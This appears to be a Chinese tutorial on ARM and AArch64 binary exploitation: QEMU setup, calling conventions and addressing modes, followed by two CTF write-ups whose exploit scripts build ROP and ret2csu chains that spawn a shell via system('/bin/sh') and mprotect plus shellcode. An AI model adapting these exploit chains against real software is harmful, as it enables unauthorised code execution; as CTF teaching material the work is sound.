




l环境搭建（基于Ubuntu18.04)¶
目前问题是ubuntu18下，在我的虚拟机中pwndbg和gdb-multiarch不能兼容，其他师傅却可以。尝试换成gef，结果gdb不行了反而gdb-multiarch可以。
现阶段决定先在16编译qemu4.2先用着，到时再去嫖一个别人的镜像吧，因为我的这镜像也是多问题。。。
安装 qemu¶
使用包管理¶
查了下包管理器安装的版本停留在 2.x 版本，考虑到最近有的程序要用新版本才能加载，放弃这种方式安装
#查看apt安装版本
apt-cache madison qemu
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-security/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-updates/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://cn.archive.ubuntu.com/ubuntu bionic-updates/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://security.ubuntu.com/ubuntu bionic-security/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7 | http://mirrors.aliyun.com/ubuntu bionic/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7 | http://cn.archive.ubuntu.com/ubuntu bionic/universe amd64 Packages
qemu | 1:2.11+dfsg-1ubuntu7 | http://mirrors.aliyun.com/ubuntu bionic/main Sources
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-security/main Sources
qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-updates/main Sources
从源码编译安装¶
下载源码¶
wget https://download.qemu.org/qemu-5.2.0.tar.xz
tar xvJf qemu-5.2.0.tar.xz
cd qemu-5.2.0
处理依赖¶
这里依赖是根据本机环境来装，可能有些需要的依赖已经安装完成
sudo apt-get update
# re2c
sudo apt-get install re2c
# ninja
sudo apt-get install ninja-build
# other
sudo apt install pkg-config
sudo apt install libglib2.0-dev
sudo apt install libpixman-1-dev
编译安装¶
sudo ./configure
sudo make -j4 # 多线程编译自行调整
sudo make install
./configure 使用默认选项安装全部架构的环境，安装路径在 /usr/local/bin
Install prefix: /usr/local
BIOS directory: share/qemu
firmware path: /usr/local/share/qemu-firmware
binary directory: bin
library directory: lib
module directory: lib/qemu
libexec directory: libexec
include directory: include
config directory: /usr/local/etc
local state directory: /usr/local/var
Manual directory: share/man
Doc directory: /usr/local/share/doc
Build directory: /home/skye/qemu-5.2.0/build
Source path: /home/skye/qemu-5.2.0
验证安装成功¶
~$ qemu-arm --version
qemu-arm version 5.2.0
Copyright (c) 2003-2020 Fabrice Bellard and the QEMU Project developers
到这里就能直接运行静态编译的多架构程序。可选清一下中间文件 make clean
安装动态运行库¶
使用命令apt-cache search "libc6" | grep "{架构名称}"搜索并筛选可用的多架构运行库。
我们只需要安装形如libc6-*-cross的运行库即可。
安装binutils环境¶
原因：避免 pwntools 用 asm 时出错LINK
需要安装binutils依赖，首先使用命令apt search binutils | grep [arch](此处的[arch]请自行替换)，随后安装显示出的包即可完成。
参考文章¶
qemu 使用¶
一般调试¶
以调试方式启动程序，程序启动后命中开头断点，等待 gdb 链接调试
qemu-arm -g [port] -L [dynamically linked file] filename
新建终端 gdb-multiarch filename -q 启动 gdb
进入GDB后，首先使用命令set architecture [Arch-name]设置架构。(若安装了能自动识别架构的GDB插件这一步可以省略)
然后使用target remote localhost:[port]来链接待调试的程序。(在GEF插件中，若想继续使用GEF插件的部分特性需要将命令改为gef-remote localhost:[port])
调试其他架构和运行库分别调整 qemu 和 -L 参数
脚本调试¶
From:
使用 context.binary 指定 binary 时, 就可以不用指定 context.arch, context.os 等参数

from pwn import *
import sys
context.binary = "your_binary"
context.log_level = "debug"
if sys.argv[1] == "r":
p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "your_binary"])
else:
p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "your_binary"])
elf = ELF("your_binary")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")
ARM架构¶
ARM架构使用了与Intel/AMD架构所不同的精简指令集(RISC)，因此其函数调用约定以及寄存器也有了一定的差异。
寄存器规则¶

- 子程序间通过寄存器**R0～R3**来**传递参数**。这时，寄存器R0～R3可记作arg0～arg3。被调用的子程序在返回前无需恢复寄存器R0～R3的内容，R0被用来存储函数调用的返回值。
- 在子程序中，使用寄存器**R4～R11**来**保存局部变量**。这时，寄存器R4～R11可以记作var1～var8。如果在子程序中使用了寄存器v1～v8中的某些寄存器，则**子程序进入时必须保存这些寄存器的值，在返回前必须恢复这些寄存器的值**。R7经常被用作存储系统调用号，R11存放着帮助我们找到栈帧边界的指针，记作FP。在Thumb程序中，通常只能使用寄存器R4～R7来保存局部变量。
- 寄存器**R12**用作**过程调用中间临时寄存器**，记作IP。在子程序之间的连接代码段中常常有这种使用规则。
- 寄存器**R13**用作**堆栈指针**，记作SP。在子程序中寄存器R13不能用作其他用途。寄存器SP在进入子程序时的值和退出子程序时的值必须相等。
- 寄存器**R14**称为**连接寄存器**，记作LR。它用于**保存子程序的返回地址**。如果在子程序中保存了返回地址，寄存器R14则可以用作其他用途。
- 寄存器**R15**是**程序计数器**，记作PC。它不能用作其它用途。当执行一个分支指令时，PC存储目的地址。在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，Thumb(v1)模式下的PC存储着当前指令加4(两条Thumb指令后)的位置。
ARM寄存器与Intel寄存器对照关系¶
| ARM架构 寄存器名 | 寄存器描述 | Intel架构 寄存器名 |
|---|---|---|
| R0 | 通用寄存器 | EAX |
| R1~R5 | 通用寄存器 | EBX、ECX、EDX、EDI、ESI |
| R6~R10 | 通用寄存器 | 无 |
| R11(FP) | 栈帧指针 | EBP |
| R12(IP) | 内部程序调用 | 无 |
| R13(SP) | 堆栈指针 | ESP |
| R14(LP) | 链接寄存器 | 无 |
| R15(PC) | 程序计数器 | EIP |
| CPSR | 程序状态寄存器 | EFLAGS |
堆栈(Stack)规则¶
ATPCS规定堆栈为FD类型，即Full Descending，意思是 SP指向最后一个压入的值(栈顶)，数据栈由高地址向低地址生长，即满递减堆栈，并且对堆栈的操作是8字节对齐。所以经常使用的指令就有**STMFD和LDMFD**。
STMFD¶
STMFD指令即Store Multiple FULL Descending指令，相当于压栈。STMFD SP! ,{R0-R7，LR}实际上会执行以下命令：
SP = SP - 9 x 4 //(共计压入R0-R7以及LR一共九个寄存器)
ADDRESS = SP
MEMORY[ADDRESS] = LR
for i = 7 to 0
MEMORY[ADDRESS] = Ri
ADDRESS = ADDRESS + 4
此处也可以看出，事实上的入栈顺序与R0-R7，LR相反。
执行SP = SP - 9 x 4后
执行ADDRESS = SP后 
执行MEMORY[ADDRESS] = LR后
接下来，ADDRESS逐次上移，以此填入寄存器的值。
至此，入栈指令执行结束。若入栈指令为STMFD SP ,{R0-R7，LR}，SP指针会在最后回到原位，不会改变SP指针的值。
LDMFD¶
LDMFD指令即Load Multiple FULL Descending指令，相当于出栈，也就是STMFD指令的逆操作。LDMFD SP! ,{R0-R7，LR}实际上会执行以下命令：
SP = SP + 9 x 4
ADDRESS = SP
for i = 0 to 7
Ri = MEMORY[ADDRESS]
ADDRESS = ADDRESS - 4
LR = MEMORY[ADDRESS]
传参规则¶
- 对于参数个数可变的子程序，当参数个数不超过4个时，可以使用寄存器R0～R3来传递参数；当参数超过4个时，还可以使用堆栈来传递参数。
- 在传递参数时，将所有参数看作是存放在连续的内存**字单元**的字数据。然后，依次将各字数据传递到寄存器R0，R1，R2和R3中。如果参数多于4个，则将剩余的字数据传递到堆栈中。入栈的顺序与参数传递顺序相反，即最后一个字数据先入栈。
返回值规则¶
- 结果为一个32位整数时，可以通过寄存器R0返回
- 结果为一个64位整数时，可以通过寄存器R0和R1返回
- 结果为一个浮点数时，可以通过浮点运算部件的寄存器f0、d0或s0来返回
- 结果为复合型浮点数（如复数）时，可以通过寄存器f0～fn或d0～dn来返回
- 对于位数更多的结果，需要通过内存来传递。
访址规则¶
寄存器直接取址¶
通常， LDR 指令被用来从内存中加载数据到寄存器， STR 指令被用作将寄存器的值存放到内存中。
@ LDR操作：从R0指向的地址中取值放到R2中
LDR R2, [R0] @ [R0] - 数据源地址来自于R0指向的内存地址
@ STR操作：将R2中的值放到R1指向的地址中
STR R2, [R1] @ [R1] - 目的地址来自于R1在内存中指向的地址
示例代码
.data /* 数据段是在内存中动态创建的，所以它的在内存中的地址不可预测*/
var1: .word 3 /* 内存中的第一个变量且赋值为3 */
var2: .word 4 /* 内存中的第二个变量且赋值为4 */
.text /* 代码段开始 */
.global _start
_start:
ldr r0, adr_var1 @ 将存放var1值的地址adr_var1加载到寄存器R0中
ldr r1, adr_var2 @ 将存放var2值的地址adr_var2加载到寄存器R1中
ldr r2, [r0] @ 将R0所指向地址中存放的0x3加载到寄存器R2中
str r2, [r1] @ 将R2中的值0x3存放到R1做指向的地址，此时，var2变量的值是0x3
bkpt
adr_var1: .word var1 /* var1的地址助记符 */
adr_var2: .word var2 /* var2的地址助记符 */
立即数偏移寻址¶
接下来我们对这段代码进行反编译，结果如下：
ldr r0, [ pc, #12 ] ; 0x8088 <adr_var1>
ldr r1, [ pc, #12 ] ; 0x808c <adr_var2>
ldr r2, [r0]
str r2, [r1]
bx lr
此处，[PC,#12]的意义是PC + 4*3，可以看出，程序使用了偏移寻址的思路，但是，根据我们所写的汇编码：
_start:
ldr r0, [ pc, #12 ] ; <- PC
ldr r1, [ pc, #12 ]
ldr r2, [r0]
str r2, [r1]
bx lr
adr_var1: .word var1
adr_var2: .word var2
我们若想获取var_1，应该为PC + 4 * 5才对，但是我们之前提过的，在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，也就是说，此时程序中的状况应该如下表所示：
_start:
ldr r0, [ pc, #12 ]
ldr r1, [ pc, #12 ]
ldr r2, [r0] ; <- PC
str r2, [r1]
bx lr
adr_var1: .word var1
adr_var2: .word var2
这种形如[Ri , num]的方式被称为**立即数作偏移寻址**。
str r2, [r1, #2] @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加2所指向地址处。
str r2, [r1, #4]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加4所指向地址处，之后R1寄存器中存储的值加4,也就是R1=R1+4。
ldr r3, [r1], #4 @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中存储的值加4,也就是R1=R1+4。
寄存器作偏移寻址¶
str r2, [r1, r2] @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加R2寄存器的值所指向地址处。R1寄存器不会被修改。
str r2, [r1, r2]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加R2寄存器的值所指向地址处，之后R1寄存器中的值被更新,也就是R1=R1+R2。
ldr r3, [r1], r2 @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中的值被更新也就是R1=R1+R2。
寄存器缩放值作偏移寻址¶
str r2, [r1, r2, LSL#2] @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处。R1寄存器不会被修改。
str r2, [r1, r2, LSL#2]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处，之后R1寄存器中的值被更新,也就R1 = R1 + R2<<2。
ldr r3, [r1], r2, LSL#2 @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中的值被更新也就是R1 = R1 + R2<<2。
AArch64架构¶
在ARMv8引入的一种全新架构。
寄存器¶
AArch拥有31个通用寄存器，系统运行在64位状态下的时候名字叫 Xn ，运行在32位的时候就叫 Wn 。
| 寄存器 | 别名 | 意义 |
|---|---|---|
| SP | – | Stack Pointer:栈指针 |
| R30 | LR | Link Register:在调用函数时候，保存下一条要执行指令的地址。 |
| R29 | FP | Frame Pointer:保存函数栈的基地址。 |
| R19-R28 | – | Callee-saved registers（含义见上面术语解释） |
| R18 | – | 平台寄存器，有特定平台解释其用法。 |
| R17 | IP1 | The second intra-procedure-call temporary register…… |
| R16 | IP0 | The first intra-procedure-call temporary register…… |
| R9-R15 | – | 临时寄存器 |
| R8 | – | 在一些情况下，返回值是通过R8返回的 |
| R0-R7 | – | 在函数调用过程中传递参数和返回值 |
| NZCV | – | 状态寄存器：N（Negative）负数 Z(Zero) 零 C(Carry) 进位 V(Overflow) 溢出 |
指令基本格式¶
<Opcode>{<Cond>}<S> <Rd>, <Rn> {,<Opcode2>}
Opcode：操作码，也就是助记符，说明指令需要执行的操作类型。
Cond：指令执行条件码。
S：条件码设置项,决定本次指令执行是否影响PSTATE寄存器响应状态位值。
Rd/Xt：目标寄存器，A32指令可以选择R0-R14，T32指令大部分只能选择RO-R7，A64指令可以选择X0-X30。
Rn/Xn：第一个操作数的寄存器，和Rd一样，不同指令有不同要求。
Opcode2：第二个操作数，可以是立即数，寄存器Rm和寄存器移位方式（Rm，#shit）。
内存操作指令-load/store¶
在分析AArch64架构程序时，会发现我们找不到ARM中常见的STMFD/LDMFD命令，取而代之的是STP/LDP命令。
在ARM-v8指令集中，程序支持以下五种寻址方式：
- Base register only (no offset) ：基址寄存器无偏移。形如:
[ base { , #0 } ]。 - Base plus offset：基址寄存器加偏移。形如:
[ base { , #imm } ]。 - Pre-indexed：事先更新寻址，先变化后操作。形如:
[ base , #imm ]!。⚠️：!符号表示则当数据传送完毕之后，将最后的地址写入基址寄存器，否则基址寄存器的内容不改变。 - Post-indexed：事后更新寻址，先操作后变化。形如:
[ base ] , #imm。 - Literal (PC-relative): PC相对寻址。
常见的Load/Store指令有：
LDR，LDRB，LDRSB，LDRH，LDRSW，STR，STRB，STRH
⚠️：此处R – Register(寄存器)、RB – Byte(字节-8bit)、SB – Signed Byte(有符号字节)、RH – Half Word(半字-16bit)、SW- Signed Word(带符号字-32bit)。
举例：
LDR X1 , [X2]——将X2寄存器中的值赋给X1寄存器。
LDR X1 , [X2] ， #4——将X2寄存器中的值赋给X1寄存器，然后X2寄存器中的值加4。
对于Load Pair/Store Pair这两个指令：从Memory地址addr处读取两个双字/字数据到目标寄存器Xt1，Xt2。
与 amd 的变化¶
引用：
栈布局上和 amd 有比较大区别，这样一个程序：
void fun(){
char buf[0x20];
}
int main(){
fun();
return 0;
}
从 main 进入 fun 时，栈分布如下：
| 内存地址 | 内存中的数据 | 备注 | 所有者 |
|---|---|---|---|
| 低 | X29 value | main 调用 fun 时的寄存器值 | fun |
| X30 value | 同上 | fun | |
| buf | fun 的局部变量 | fun | |
| X29 value | 上层函数调用main时的寄存器值 | main | |
| 高 | X30 value | 同上 | main |
x86 架构下的 rbp、rip 保存在栈低，aarch64 架构下保存在栈顶。
如果存在栈溢出，修改的上层函数的 rbp 和 rip（x29、x30）。
入门实战¶
jarvisoj - typo¶
基本情况¶
只打开 nx 保护，静态链接程序，没有符号表。qemu-arm ./typo 启动看看，是个打字程序，打字界面存在溢出。
ida 加载后搜索字符串，发现有 /bin/sh 和 system 。用 rizzo 提取 libc 符号表后导入到程序还原出 system 地址。
找 gadget 第一个参数在 r0 ，下一条命令在 pc ，找到 gadget pop_r0_r4_pc 。栈布局如下：
+-------------+
| |
| padding |
+-------------+
| padding | <- frame pointer
+-------------+
|gadgets_addr | <- return address
+-------------+
|binsh_addr |
+-------------+
|junk_data |
+-------------+
|system_addr |
+-------------+
本地调试用 gdb 的 cycli 功能得出溢出长度：
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.
……
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
Invalid address 0x62616164
……
pwndbg> cyclic -l 0x62616164
112
字符串输入不能和 amd 架构可以边调试边输入，要用脚本输入。最后得出 padding 112 。
EXP¶
from pwn import *
import sys
context.binary = "./typo"
context.log_level = "debug"
if sys.argv[1] == "r":
p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./typo"])
else:
#p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "./typo"])
#p = process(['qemu-arm',"-g","1234","./typo"])
p = process(['qemu-arm',"./typo"])
elf = ELF("./typo")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")
pop_r0_r4_pc = 0x00020904
str_binsh = 0x0006c384
system = 0x000110B4
padding = 112
payload = 'a'*padding + p32(pop_r0_r4_pc) + p32(str_binsh)*2 + p32(system)
p.sendlineafter("quit",'')
# p.sendline("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
sleep(1)
p.sendline(payload)
p.interactive()
2018 上海市大学生网络安全大赛 - baby_arm¶
基本情况¶
Aarch64 架构只打开 nx 保护，是个动态连接的程序，qemu 启动要用 -L 指定运行库：qemu-aarch64 -L /usr/aarch64-linux-gnu ./pwn

程序一共两次输入，第一次是输入到 bss 段，第二次存在栈溢出。
看一看栈溢出部分汇编，aarch64 栈分布与 x86 有点不一样：
var_50 = -0x50
STP X29, X30, [SP,#var_50]!;压栈将x29x30压入sp-0x50，之后将sp更新为sp-0x50
MOV X29, SP;新栈基地址
ADD X0, X29, #0x10;x0=x29-0x10
MOV X2, #0x200 ; nbytes
MOV X1, X0 ; buf
MOV W0, #0 ; fd
BL .read
NOP
LDP X29, X30, [SP+0x50+var_50],#0x50;出栈
RET
这里栈溢出的话不能修改 sub_4007F0 的 rip ，修改的是上层函数的返回地址。利用 mprotect 给 bss 写入位置加上运行权限。mprotect 需要 3 个参数，对应 x0-x3 寄存器，ROPgadget 没有找到合适的。
ret2csu¶
在 start 函数中找到 init 函数：

结构体和 x86 的差不多：


0x4008CC 开始从栈上提取值到寄存器，读懂寻址方式就行。栈溢出填充变量后马上调用 0x4008CC 变量在内存布局如下：
| 内存地址 | 内存布局 | 备注 |
|---|---|---|
| 低 | …… | padding |
| …… | Rbp | |
| 0x4008CC | Rip | |
| X29 | ||
| X30 | ||
| X19 | ||
| X20 | ||
| X21 | ||
| X22 | ||
| X23 | ||
| 高 | X24 | |
然后就是 0x4008AC 给参数寄存器赋值并调用函数：
LDR X3, [X21,X19,LSL#3]
MOV X2, X22
MOV X1, X23
MOV W0, W24
ADD X19, X19, #1
BLR X3
CMP X19, X20
B.NE loc_4008AC
-
执行
LDR X3,[X21,X19,LSL#3]，那么此句汇编的意义是，将X19的值逻辑左移(Logical Shift Left)三位后加上X21的值，**取其所指向的值**存储在X3寄存器中。控制 x19 为 0 ，就变成LDR X3,[X21]。 -
把 X22 寄存器的值作为第三个参数 x2 ；把 X23 寄存器的值作为第二个参数 x1 ；把 X24 寄存器的值（低32位）作为第一个参数 x0 ；
-
给 X19 寄存器的值加一，调用 X3 寄存器**所指向**的函数，也就需要找个已知地址的地方写入 plt 。
- 比较 x19 和 x20 ，不相等就再次调用 0x4008AC ，所用 x20 控制为 1 。
最后得出对照表：
| 内存地址 | 内存布局 | 备注 |
|---|---|---|
| 低 | …… | padding |
| …… | Rbp | |
| 0x4008CC | Rip | |
| X29 | ||
| X30 | ||
| X19 | 固定值：0 | |
| X20 | 固定值：1 | |
| X21 | 存储调用函数地址：X3 | |
| X22 | 第三个参数：X2 | |
| X23 | 第二个参数：X1 | |
| 高 | X24 | 第一个参数：W0(X0低32位) |
修改完权限之后还需要调用在 bss 段上的 shellcode ，就在上面 payload 上再加调用就行了，得出最后的 payload ：
payload = 'A' * 0x40
payload += p64(0xdeadbeef) # X19
payload += p64(0x4008CC) # X20
payload += p64(0xdeadbeef) # X29
payload += p64(0x4008AC) # X30
payload += p64(0) + p64(1) # X19 , X20
payload += p64(0x411068 + 0x100) # X21
payload += p64(0x7) # X22
payload += p64(0x1000) # X23
payload += p64(0x411000) # X24
payload += p64(0xdeadbeef) # X29
payload += p64(0x411068) # X30
payload += p64(0) * 0x6 # X19 - X24
EXP¶
from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"
if sys.argv[1] == "r":
p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
p = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elf = ELF("./pwn")
libc = ELF("/usr/aarch64-linux-gnu/lib/libc.so.6")
shell_code = asm(shellcraft.sh())
shell_code = shell_code.ljust(0x100,'\x90')
shell_code = shell_code + p64(elf.plt['mprotect'])
payload = 'A' * 0x40
payload += p64(0xdeadbeef) # X19
payload += p64(0x4008CC) # X20
payload += p64(0xdeadbeef) # X29
payload += p64(0x4008AC) # X30
payload += p64(0) + p64(1) # X19 , X20
payload += p64(0x411068 + 0x100) # X21
payload += p64(0x7) # X22
payload += p64(0x1000) # X23
payload += p64(0x411000) # X24
payload += p64(0xdeadbeef) # X29
payload += p64(0x411068) # X30
payload += p64(0) * 0x6 # X19 - X24
p.recvuntil("Name:")
p.sendline(shell_code)
sleep(0.5)
p.sendline(payload)
p.interactive()